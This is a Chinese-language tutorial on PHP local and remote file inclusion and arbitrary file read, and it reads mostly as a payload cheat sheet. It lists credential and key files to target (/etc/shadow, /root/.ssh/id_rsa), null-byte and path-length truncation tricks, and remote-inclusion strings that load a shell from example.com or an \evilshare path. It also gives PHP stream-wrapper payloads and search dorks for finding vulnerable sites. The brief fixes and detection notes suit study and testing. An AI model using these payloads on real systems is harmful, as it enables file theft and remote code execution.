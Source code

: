 ## 一、本地文件包含
  
文件包含漏洞的产生原因是在通过引入文件时，由于传入的文件名没有经过合理的校验，或者校检被绕过，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。当被包含的文件在服务器本地时，就形成的本地文件包含漏洞。
  
比如 `<? include($_GET['path']) ?>`
  
许多工具都支持本地文件包含漏洞的检测，Kadimus是其中一款。具体使用方法参见[Kadimus](https://github.com/P0cL4bs/Kadimus/)
  

  
以下是一些本地包含漏洞中常利用的服务器上的重要文件
  
```
  
.htaccess
  
/var/lib/locate.db
  
/var/lib/mlocate/mlocate.db 
  
/var/log/apache/error.log
  
/usr/local/apache2/conf/httpd.conf
  
/root/.ssh/authorized_keys
  
/root/.ssh/id_rsa
  
/root/.ssh/id_rsa.keystore
  
/root/.ssh/id_rsa.pub
  
/root/.ssh/known_hosts
  
/etc/shadow
  
/root/.bash_history
  
/root/.mysql_history
  
/proc/self/fd/fd[0-9]* (文件标识符)
  
/proc/mounts
  
/proc/config.gz
  
/tmp/sess_sessionid
  
```
  
本地文件包含漏洞也常需要进行截断，以下是一些常用的截断方法
  
%00截断：
  
`/etc/passwd%00`
  
(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)
  

  
%00截断目录遍历：
  
`/var/www/%00`
  
(需要 magic_quotes_gpc=off，unix文件系统，比如FreeBSD，OpenBSD，NetBSD，Solaris)
  

  
路径长度截断：
  
`/etc/passwd/././././././.[…]/./././././.`
  
(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)
  

  
点号截断：
  
`/boot.ini/………[…]…………`
  
(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)
  
%00 截断更多地用于文件包含，比如 `<?php include($_GET['path']).".jpg" >` 要求一定是jpg 后缀的，这样我们可以用 `1.php?path=php://input%00` 这样就把后面的 .jpg 吃掉了。同理 path=../../../../etc/passwd%00  读取 /etc/passwd，在存在文件名后缀限定的情况下，`path=../../../../etc/passwd%00.jpg`、`path=../../../../etc/passwd\0.jpg`、`path=..\\..\\..\\..\\etc/passwd\0.jpg`
  
当然也可以把 php 代码文件后缀改为 jpg，直接包含执行。
  

  
e.g [Cacti Superlinks Plugin 1.4-2 - RCE (LFI) via SQL Injection Exploit](https://www.exploit-db.com/exploits/35578/)
  

  
修复方案：
  
php中可以使用 open_basedir  将用户文件访问限制在指定的区域。如将文件访问限制在 /dir/user/ 中。
  
在php.ini中设置 `open_basedir = /dir/user/`
  

  
但该方法并不是万能的，在某些情况下仍可能会被绕过， 对传入的参数进行校检和过滤始终是有必要的。
  

  
常见的导致文件包含的函数如下：
  
PHP： include(), include_once(), require(), require_once(), fopen(), readfile() ...
  
当使用前4个函数包含一个新的文件时，该文件将作为 php 代码执行，php 内核不会在意该被包含的文件是什么类型。
  
包含 /proc/self/environ 可以看到系统的一些环境变量，如web 路径等。
  

  
## 二、远程文件包含
  
`<?php include($_GET['file']); ?>`
  
* 远程代码执行：`?file=[http|https|ftp]://example.com/shell.txt`
  (需要allow_url_fopen=On并且 allow_url_include=On)
  
* file 协议读取本地文件：`file=file://etc/passwd`  
(需要allow_url_fopen=On并且 allow_url_include=On)
  
* 利用php流input：`?file=php://input`
  (需要allow_url_include=On，详细→http://php.net/manual/en/wrappers.php.php)
  

  
* 利用php流filter：`?file=php://filter/convert.base64-encode/resource=index.php`
  (同上)
  

  
* 利用data URIs：`?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=%00`
  (需要allow_url_include=On)
  

  
* 利用XSS执行任意代码：`?file=http://127.0.0.1/path/xss.php?xss=phpcode`
  (需要allow_url_fopen=On，allow_url_include=On并且防火墙或者白名单不允许访问外网时，先在同站点找一个XSS漏洞，包含这个页面，就可以注入恶意代码了)
  `<?php include($_GET['file'] . ".htm"); ?>`
  

  
* `?file=http://example.com/shell`
  

  
* `?file=http://example.com/shell.txt?`
  

  
* `?file=http://example.com/shell.txt%23`
  (需要allow_url_fopen=On并且allow_url_include=On)
  

  
* `?file=\evilshare\shell.php` (只需要allow_url_include=On)
  

  
无论是本地文件包含还是远程文件包含， 实际上我们操作文件的函数不只是include()一个，上面提到的一些截断的方法同样可以适用于以下函数：
  
![fileinclude](../pictures/fileinclue1.png)
  
自动化检测思路中，比较简单的一种是将url参数值替换为`./index.php`，如果存在漏洞会出现报错（根据不同系统语言而不同），比如 `Failed opening|failed to open stream`
  

  
## 三、任意文件读取
  
任意文件读取与文件包含的界限有点模糊，可以认为文件包含包括任意文件读取，只是任意文件读取不会造成代码执行，也就是文件内容输出的上下文不是脚本执行环境。
  
```
  
从链接上看，形如：
  
inurl:"readfile.php?file=" 、inurl:"read.php?filename="、inurl:"download.php?file="、inurl:"down.php?file="
  
从参数名看，形如：
  
&RealPath= 、&FilePath= 、&ﬁlepath= 、&Path= 、&path= 、&inputFile= 、&url= 、&urls= 、&Lang= 、&dis= 、&data= 、&readﬁle= 
、&ﬁlep= 、&src= 、&menu= 、META-INF 、WEB-INF
  
```
  
自动化检测思路中，payload 是结合绕过姿势尝试读取一些常见的文件，比如 /etc/passwd，/WEB-INF/web.xml 等，匹配是否是所读文件的内容，若是则表示存在漏洞。
  

  

  

  

  
